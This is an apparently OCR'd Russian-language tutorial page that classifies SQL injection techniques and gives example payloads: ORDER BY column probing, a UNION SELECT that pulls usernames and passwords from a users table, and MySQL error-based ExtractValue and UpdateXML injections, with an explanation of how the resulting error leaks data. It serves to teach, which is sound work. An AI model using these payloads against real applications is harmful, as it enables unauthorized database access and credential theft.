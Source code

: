 
## **Категории SQL Injection атак**

---

### **1. По технике извлечения**

- **Classic/In-band SQLi** — данные извлекаются через тот же канал
- **Blind SQLi** — результат виден только по поведению приложения
- **Out-of-band SQLi** — данные извлекаются через сторонние каналы (DNS, HTTP)

### **2. По механизму эксплуатации**

- **Union-based** — использование оператора UNION
- **Error-based** — извлечение данных через сообщения об ошибках
- **Boolean-based Blind** — определение истинности условий
- **Time-based Blind** — использование временных задержек
- **Stacked Queries** — выполнение нескольких запросов

---

## **Примеры атак**

### **Union-based Injection**

``` sql
-- Определение количества колонок
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--

-- Union-атака
' UNION SELECT 1,2,3--
' UNION SELECT username, password, NULL FROM users--
```

### **Error-based Injection (MySQL)**

```sql
-- Извлечение данных через ошибки
' AND ExtractValue(1, CONCAT(0x3a, (SELECT database())))--
' AND UpdateXML(1, CONCAT(0x3a, (SELECT user())), 1)--
```
**Как работает ExtractValue():**
- **ExtractValue(xml, xpath)** — функция для извлечения данных из XML
- **Первый параметр (1)** — некорректный XML (просто число 1)
- **CONCAT(0x3a, (SELECT database()))** — создает строку `:database_name`
- **0x3a** — hex-представление двоеточия (разделитель)
- **Ошибка возникает** потому что функция ожидает валидный XPath, а получает `:database_name`

**Пример вывода - MySQL вернет ошибку типа:**
``` text
Error: XPATH syntax error: ':database_name'
```
